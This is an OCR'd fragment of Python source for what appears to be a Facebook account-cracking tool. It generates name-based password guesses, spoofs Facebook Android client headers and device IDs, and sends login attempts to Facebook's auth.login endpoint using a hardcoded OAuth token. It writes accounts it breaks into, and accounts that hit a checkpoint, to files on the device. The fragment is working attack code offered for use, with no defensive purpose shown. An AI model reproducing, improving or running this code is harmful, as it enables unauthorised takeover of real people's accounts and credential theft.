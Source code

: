                                 ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [JALIIL-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/JALIIIL-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [JALIIIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/JALIIIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
